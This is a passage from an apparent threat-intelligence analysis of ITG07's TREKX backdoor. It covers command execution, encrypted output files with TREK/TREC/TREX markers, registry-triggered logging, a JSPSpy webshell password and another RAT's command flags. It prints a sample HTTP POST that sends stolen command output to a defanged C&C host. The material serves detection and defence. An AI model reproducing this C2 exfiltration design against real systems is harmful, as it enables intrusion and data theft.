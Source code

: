 The malware decrypts the C&C message from the above file. The decrypted C&C message contains a command that will be executed on the affected machine. The command is passed to kernel32!CreateProcessA() for execution.
The output of the command is encrypted and then stored by the malware in the following file:
<;MalwareFolder>;\{521f596c-369c-21dd-f55e-4029ed9e2092}\x<;HexCharacters>;.tmp
Example: C:\<MalwareFolder>\{521f596c-369c-21dd-f55e-4029ed9e2092}\xc6b2e770306718061.tmp
The malware prepends the encrypted command output with the 4-byte string TREK:
0000000: 54 52 45 4b 89 9f bb 8f 99 3f c3 40 fb 08 81 a6 TREK…..?.@….
…
If the command output is more than or equal to 256 bytes in size, the command output is additionally CAB-archived and the MSCF marker is replaced with the four-byte string TREC or TREX:
0000000: 54 52 45 43 00 00 00 00 21 01 00 00 00 00 00 00 TREC….!…….
…
0000000: 54 52 45 58 00 00 00 00 21 01 00 00 00 00 00 00 TREX….!…….
…
The malware sends the content of the command output file to the C&C server via HTTP POST requests similar to:
POST /comm.aspx HTTP/1.1
Accept: image/gif, image/jpeg, application/xhtml+xml, application/xml;q=0.9, * /*;q=0.8
Content-Type: multipart/form-data; boundary=—————————070504cf2370e
Accept-Language: en-US,en;q=0.5
Cache-Control: no-cache
Content-Length: 611
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Win64; x64; Trident/4.0; .NET CLR 2.0.50727; SLCC2; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; InfoPath.3)
Host: sabre-css[.]com
Connection: Close
—————————–070504cf2370e
Content-Disposition: form-data; name=”File1″; filename=”vf001″
Content-Type: application/octet-stream
<;… Generated Data …>;<;… Contents of Command Output File …>;
—————————–070504cf2370e–
“`
TREKX’s Internal Message Logging
For TREKX’s logging functionality, the malware checks the value of the following registry entry:
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\DRM
 Log = <LogLevel>
Where <LogLevel> is a number.
If the above registry entry exists, the malware logs its internal messages in the following file:
<;MalwareFolder>;\file-<;LogLevel>;.log
Additional ITG07 Observations
During the course of investigation into ITG07 activity, our team further uncovered a copy of the JSPSpy webshell that was infiltrated by ITG07 and configured with the password Matrix45.
Furthermore, ITG07 was observed leveraging another RAT malware but primarily for the purposes of exfiltrating data. The file accepts various commands during command line execution, including:

-s <;address>; (connect to specified address)
-p <;address>; (connect to the specified address via a proxy)
-k (purpose unknown)
-u (purpose unknown)

When executed with the -s parameter, the sample connected to the specified address and received encoded commands from the C&C node. The encoded commands and other status messages were written to a log file named l.txt.
The following are the hardcoded commands that were uncovered during analysis:
